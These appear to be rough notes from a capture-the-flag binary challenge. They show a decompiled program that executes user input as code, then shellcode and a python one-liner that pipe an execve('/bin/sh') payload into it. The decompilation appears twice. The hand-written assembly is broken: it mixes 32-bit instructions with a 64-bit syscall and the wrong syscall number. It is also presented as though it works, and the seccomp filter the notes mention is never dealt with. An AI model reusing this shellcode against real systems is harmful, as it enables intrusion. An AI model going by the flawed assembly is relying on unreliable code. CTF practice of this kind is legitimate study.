 # message

`nc ctf.tcp1p.com 8008`

```sh
file chall
# chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, 
# interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e1162c30beb8e3402633c04668f15039a1de7f63, 
# for GNU/Linux 3.2.0, not stripped


# 'no' -> segfault
# 'a'  -> illegal hardware instruction

```

opened in ghidra


```c
undefined8 main(void)

{
  void *__buf;
  code *__dest;
  undefined8 uVar1;
  
  __buf = malloc(0x150);
  __dest = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);

// void * mmap (void *address, size_t length, int protect, int flags, int filedes, off_t offset)
//
//   0x0 -> start address, allow system to find a suitable spot
//   0x1000 -> size of memory (4Kb)
//   7 -> PROT_READ | PROT_WRITE | PROT_EXECUTE
//   0x22 -> MAP_PRIVATE | MAP_ANONYMOUS
//   -1 -> file descriptor, anonymous memory, so no file
//   offset 0

  setup();
  seccomp_setup();

  if ((__dest == (code *)0xffffffffffffffff) || (__buf == (void *)0x0)) {
    perror("Allocation failed");
    uVar1 = 1;
  }
  else {
    puts("Anything you want to tell me? ");
    read(0,__buf,0x150); // 336 bytes
    memcpy(__dest,__buf,0x1000); // copy 4096 bytes from buffer
    (*__dest)(); // executes function -> shellcode? pop /bin/sh
    free(__buf);
    munmap(__dest,0x1000);
    uVar1 = 0;
  }
  return uVar1;
}
```



undefined8 main(void)

{
  void *__buf;
  code *__dest;
  undefined8 uVar1;
  
  __buf = malloc(0x150);
  __dest = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  setup();
  seccomp_setup();
  if ((__dest == (code *)0xffffffffffffffff) || (__buf == (void *)0x0)) {
    perror("Allocation failed");
    uVar1 = 1;
  }
  else {
    puts("Anything you want to tell me? ");
    read(0,__buf,0x150);
    memcpy(__dest,__buf,0x1000);
    (*__dest)();
    free(__buf);
    munmap(__dest,0x1000);
    uVar1 = 0;
  }
  return uVar1;
}


xor     eax, eax             ; Set EAX to 0
xor     edi, edi             ; Clear EDI
push    edi                  ; Null-terminate string
push    0x68732f2f          ; Push "hs//"
push    0x6e69622f          ; Push "nib/"
mov     ebx, esp             ; EBX points to "/bin/sh"
push    eax                  ; Push null byte
mov     edx, esp             ; EDX points to null byte
push    ebx                  ; Push the address of "/bin/sh" (EBX)
mov     ecx, esp             ; ECX points to "/bin/sh" (address)
mov     al, 11               ; syscall number for execve (11)
syscall                      ; Call the kernel




(python3 -c "import sys; sys.stdout.buffer.write(b'H\xb8/bin/sh\x00PH\x89\xe7H\xc7\xc6\x00\x00\x00\x00H\xc7\xc2\x00\x00\x00\x00H\xc7\xc0;\x00\x00\x00\x0f\x05')") | ./chall
